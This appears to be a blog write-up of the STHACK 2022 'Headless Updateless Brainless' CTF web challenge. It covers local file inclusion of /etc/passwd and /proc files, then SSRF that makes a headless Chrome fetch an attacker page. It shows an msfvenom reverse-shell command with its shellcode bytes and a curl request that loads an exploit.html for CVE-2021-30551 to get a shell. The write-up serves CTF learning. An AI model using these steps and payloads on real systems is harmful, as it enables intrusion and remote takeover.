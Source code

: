 # Introduction

During the [STHACK 2022](https://sthack.fr) (CTF event \@Bordeaux
France), **[Laluka](https://twitter.com/TheLaluka)** has created few web
challenges including the **Headless Updateless Brainless** challenge
that had a \"pwn\" exploitation step.

To be honest, this challenge was not resolved by our team during the
CTF. Got stuck at the last final exploitation step. After chatting with
Laluka, he agreed to give us an access and try one more time to solve
it.

And this time, it worked great!

# Recon

## Main feature

The challenge URL displays the following page:

![](https://www.opencyber.com/wp-content/uploads/2022/05/chall_web_first_page-1.png){.wp-image-3704}

The parameter **file** seems very interesting.

## Local File inclusion

The first try was to inject some local files into the parameter file,
like \"/etc/passwd\".

![](https://www.opencyber.com/wp-content/uploads/2022/05/CHALL_LFI_3-3.png){.wp-image-3707
data-id="3707"
full-url="https://www.opencyber.com/wp-content/uploads/2022/05/CHALL_LFI_3-3.png"
data-link="https://www.opencyber.com/?attachment_id=3707"}

As you can see, there is a user **chrome**. Maybe an hint for one next
step!

Next file: **/proc/mounts**

![](https://www.opencyber.com/wp-content/uploads/2022/05/CHALL_LFI_0-1.png){.wp-image-3708}

There is the file **flag_random_name\_\*** in the root directory. But it
is not reachable directly with this first vulnerability. You will\
understand why exactly after leaking another file.

Also, there is a **/site** as well. There source code could be stored
here.

Next file: **/proc/self/cmdline**. This file is interesting to
understand what the comand line of the current process is doing:

![](https://www.opencyber.com/wp-content/uploads/2022/05/CHALL_LFI_1-1.png){.wp-image-3709}

This is actually \"node chall.js\". The filename is **chall.js** which
may be located in the /site directory. Let\'s leak it using the same\
vulnerability.

The bellow part of the source code shows why it is not possible to reach
the flag file using the first vulnerability.

![](https://www.opencyber.com/wp-content/uploads/2022/05/FLAG_FORBID-1.png){.wp-image-3710}

By analyzing the rest of the source code, we can notice a new endpoint
which is **\"/coolish-unguessable-feature\"**.

![](https://www.opencyber.com/wp-content/uploads/2022/05/CHALL_LFI_4-1.png){.wp-image-3711}

Let\'s reach it:

![](https://www.opencyber.com/wp-content/uploads/2022/05/PART2_GET2-1.png){.wp-image-3712
data-id="3712"
full-url="https://www.opencyber.com/wp-content/uploads/2022/05/PART2_GET2-1.png"
data-link="https://www.opencyber.com/?attachment_id=3712"}

Reading the source code, a new parameter **\"url\"** can be added to the
URL:

![](https://www.opencyber.com/wp-content/uploads/2022/05/LEAK_CODE_1-1.png){.wp-image-3715
data-id="3715"
full-url="https://www.opencyber.com/wp-content/uploads/2022/05/LEAK_CODE_1-1.png"
data-link="https://www.opencyber.com/?attachment_id=3715"}

The parameter needs to start with **\"http\"** in order to take a
screenshot of the remote page. The **takeScreenshot** function is the\
following:

![](https://www.opencyber.com/wp-content/uploads/2022/05/LEAK_CODE_2-2-1024x169.png){.wp-image-3714
data-id="3714"
full-url="https://www.opencyber.com/wp-content/uploads/2022/05/LEAK_CODE_2-2.png"
data-link="https://www.opencyber.com/?attachment_id=3714"}

The parameter **url** is controlled by the user. Let\'s try to make the
application reach ourself using the following payload:

``` {.wp-block-syntaxhighlighter-code .code}
http://headless-updateless-brainless.sthack.fr/coolish-unguessable-feature?url=http://IP:PORT/test
```

![](https://www.opencyber.com/wp-content/uploads/2022/05/CHALL_BROWSER_OUTDATED-1024x214.png){.wp-image-3716
data-id="3716"
full-url="https://www.opencyber.com/wp-content/uploads/2022/05/CHALL_BROWSER_OUTDATED.png"
data-link="https://www.opencyber.com/?attachment_id=3716"}

We retrieve the Chrome version which seems very interesting (and not up
to date).

## Browser vulnerability - Recon

So the browser used Chrome on version **89.0.4389.72**.

A quick (**no, kidding, it took times!**) research on
<https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=chrome> lead to the\
following CVE:

**CVE-2021-30551** - Type confusion in V8 in Google Chrome prior to
91.0.4472.101 allowed a remote attacker to potentially exploit heap\
corruption via a crafted HTML page.

Searching a Proof-of-Concept, the following link helped us to exploit
the vulnerability: <https://github.com/xmzyshypnc/CVE-2021-30551>.

Only the shellcode at the end of the PoC needs to be modified.

## Browser vulnerability - (Local exploitation)

### Building the shellcode - (Local exploitation)

Using msfvenom helped to build the shellcode:

``` {.wp-block-syntaxhighlighter-code .code}
msfvenom -p linux/x64/shell_reverse_tcp -a x64 --platform linux LHOST=192.168.122.1 LPORT=4444 -f hex

#Output: 6a2958996a025f6a015e0f05489748b90200115cc0a87a01514889e66a105a6a2a580f
#056a035e48ffce6a21580f0575f66a3b589948bb2f62696e2f736800534889e752574889e60f05
```

Let\'s change the shellcode by using a vim trick to add 0x before the
hexa value, and a comma:

![](https://www.opencyber.com/wp-content/uploads/2022/05/SC_MSFVENOM-1-1024x100.png){.wp-image-3717}

This will take two values of hexa, add a prefix **,0x** to the pattern
found from the regex, which gives:

``` {.wp-block-syntaxhighlighter-code .code}
,0x6a,0x29,0x58,0x99,0x6a,0x02,0x5f,0x6a,0x01,0x5e,0x0f,0x05,0x48,0x97,0x48,0xb9,0x02,
0x00,0x11,0x5c,0xc0,0xa8,0x7a,0x01,0x51,0x48,0x89,0xe6,0x6a,0x10,0x5a,0x6a,0x2a,0x58,
0x0f,0x05,0x6a,0x03,0x5e,0x48,0xff,0xce,0x6a,0x21,0x58,0x0f,0x05,0x75,0xf6,0x6a,0x3b,
0x58,0x99,0x48,0xbb,0x2f,0x62,0x69,0x6e,0x2f,0x73,0x68,0x00,0x53,0x48,0x89,0xe7,0x52,
0x57,0x48,0x89,0xe6,0x0f,0x05
```

Anyway, the new shellcode line is:

``` {.wp-block-syntaxhighlighter-code .code}
let shellcode = [0x6a,0x29,0x58,0x99,0x6a,0x02,0x5f,0x6a,0x01,0x5e,0x0f,0x05,0x48,0x97,0x48,0xb9,
0x02,0x00,0x11,0x5c,0xc0,0xa8,0x7a,0x01,0x51,0x48,0x89,0xe6,0x6a,0x10,0x5a,0x6a,
0x2a,0x58,0x0f,0x05,0x6a,0x03,0x5e,0x48,0xff,0xce,0x6a,0x21,0x58,0x0f,0x05,0x75,
0xf6,0x6a,0x3b,0x58,0x99,0x48,0xbb,0x2f,0x62,0x69,0x6e,0x2f,0x73,0x68,0x00,0x53,
0x48,0x89,0xe7,0x52,0x57,0x48,0x89,0xe6,0x0f,0x05];
```

### Remote Code Execution - (Local exploitation)

Let\'s the application get our .html file:

``` {.wp-block-syntaxhighlighter-code .code}
curl http://192.168.122.141:8082/coolish-unguessable-feature?url=http://:192.168.122.1:8000/exploit.html
```

The exploit.html file is reached which lead to exploit the vulnerability
that gives us a shell:

![](https://www.opencyber.com/wp-content/uploads/2022/05/RCE-1.png){.wp-image-3718
data-id="3718"
full-url="https://www.opencyber.com/wp-content/uploads/2022/05/RCE-1.png"
data-link="https://www.opencyber.com/?attachment_id=3718"}

Thus the flag was\... Oops, cannot say, did not get the one during the
night!

Thanks **[Laluka](https://twitter.com/TheLaluka)** for the challenge and
the [STHACK](https://sthack.fr) for the event!\
\
The challenges have been made public and can be found here:
[https://gitlab.com/TheLaluka/headless-updateless-brainless](https://gitlab.com/TheLaluka/headless-updateless-brainless){target="_blank"
rel="noreferrer noopener"}
